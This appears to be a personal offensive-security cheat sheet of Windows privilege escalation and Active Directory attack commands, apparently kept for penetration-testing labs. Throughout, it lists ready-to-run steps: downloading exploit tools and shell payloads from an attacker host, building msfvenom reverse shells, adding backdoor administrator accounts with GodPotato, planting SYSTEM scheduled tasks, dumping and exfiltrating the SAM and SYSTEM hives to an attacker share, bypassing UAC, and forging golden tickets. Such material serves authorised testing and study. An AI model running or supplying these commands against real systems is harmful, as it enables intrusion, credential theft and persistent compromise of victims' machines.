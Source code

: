 System browsing:
---
```cmd
net user
```

```powershell
Get-LocalUser
```

```powershell
GCI -hidden -recurse
ls -force
```

```cmd
net user $USER
```

```cmd
netstat -an
netstat -an | findstr $PORT
```

```powershell
net accounts
```
Replace service
---
Get list of running services
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Check file permissions:

```powershell
icacls 'c:\...'
```
(F) - full permissions, read, write, execute

Check env vars:
```powershell
ls env:
```

or automate the process with PowerUp.ps1
#powerup #replace-service #privesc 
```powershell
iwr -uri http://$LOCAL_IP/PowerUp.ps1 -Outfile PowerUp.ps1
. .\PowerUp.ps1
Get-ModifiableServiceFile
Install-ServiceBinary -Name '$SERVICE'
Restart-Service $SERVICE
Start-Service $SERVICE
```

Evil-WinRM:
#built-in #winrm #evilwinrm 

```powershell
services
download
upload
```
Scheduled Tasks:
---

#scheduled-tasks

```powershell
schtasks /query /fo LIST /v | findstr /i "c:\users"
schtasks /query /fo LIST /v | Select-String -Pattern "c:\\user" -Context 5,5
```

```powershell
schtasks /create /tn "shell" /tr "task.exe" /sc MINUTE /mo 1 /ru "SYSTEM"
```

```bash
msfvenom -p windows/adduser USER=admin2 PASS=P@ssword123! -f msi-nouac -o alwe.msi
```

Using RunasCs.exe to bypass UAC:
#uac #bypass-uac
```powershell
.\RunasCs.exe $USER $PASS $CMD --bypass-uac -l 5
```
Search for passwords inside the registry
---
```powershell
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Find misconfigured services (default settings)
---
```powershell
cmd /c wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" |findstr /i /v "\`""
```

#unquoted #service-privesc

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v "\`"" | findstr ":"
```

```powershell
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
Stop-Service $SERVICE
Write-ServiceBinary -Name '$SERVICE' -Path "C:\$UNQUOTED_PATH"
Restart-Service $SERVICE
```

Abusing enabled `SeImpersonatePrivilege` with PrinterSpoofer64:

```powershell
whoami /priv | select-string "SeImpersonatePrivilege(.*)Enabled"
iwr -uri http://$LOCAL_IP/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

adding user with godpotato.exe
```powershell
.\GodPotato.exe -cmd "net user test Password123! /add"
.\GodPotato.exe -cmd "net localgroup administrators test /add"
.\GodPotato.exe -cmd 'net localgroup \"Remote Desktop Users\" test /add'
.\GodPotato.exe -cmd 'net localgroup \"Remote Management Users\" test /add'
```
or add to scheduled tasks, generate shell.exe using msfvenom:
```powershell
iwr $KALI_IP/shell.exe -outfile c:\windows\tasks\shell.exe
./godpotato -cmd 'cmd /c SCHTASKS /CREATE /SC MINUTE /TN "shell" /TR "c:\windows\tasks\shell.exe" /RU "SYSTEM" /MO 1'
./godpotato -cmd 'cmd /c SCHTASKS /RUN /TN "shell"'
```

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
python3 -m http.server 80
```

Other privileges that can be exploited if enabled: 
`SeBackupPrivilege` `SeAssignPrimaryToken` `SeLoadDriver` `SeDebugPrivilege` `SeRestorePrivilege`

 Abuse:
#SeDebugPrivilege 

```bash
impacket-smbserver -smb2support s .
```

```powershell
cd c:\
reg save hklm\sam c:\temp\sam
reg save hklm\system c:\temp\system
cp system //$LOCAL_IP/s/system
cp sam //$LOCAL_IP/s/sam
```

```bash
pypykatz registry --sam sam system
```

#SeRestorePrivilege

```bash
wget https://github.com/dxnboy/redteam/raw/master/SeRestoreAbuse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 -f exe > shell.exe
```

```powershell
./SeRestoreAbuse.exe 'cmd /c C:\tools\shell.exe'
```
Generate Payload for DLL hijacking
---
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f dll -o revshell.dll
```
Golden ticket
---
generate user password hash:

```python
import hashlib
hashlib.new('md4', '$PASSWORD'.encode('utf-16le')).digest().hex()
# save hash for later
```

or use

```url
https://gchq.github.io/CyberChef/#recipe=NT_Hash()
```

```powershell
get-addomain
#extract DomainSID
```

```shell
ticketer.py -nthash $HASH -domainsid $DOMAINSID -domain $TARGET_AD -spn AnyName/dc.$TARGET_AD administrator
```

```shell
KRB5CCNAME=administrator.ccache mssqlclient.py -k administrator@$DCDOMAIN
```

GoldenPAC ms14-068

```bash
impacket-goldenPac -dc-ip $TARGET_IP -target-ip $TARGET_IP '$TARGET_AD/$USER:$PASSWORD@$MACHINE.$TARGET_AD'
```

Port scanning using PowerShell
---

Scan if single port is open:
```powershell
Test-NetConnection 127.0.0.1 -Port $port
```

scan ports from 1 to 1024(slow):
```powershell
foreach ($port in 1..1024){If(($a=Test-NetConnection 127.0.0.1 -Port $port -WarningAction SilentlyContinue).TcpTestSucceeded -eq $true){"TCP port $port is open"}}
```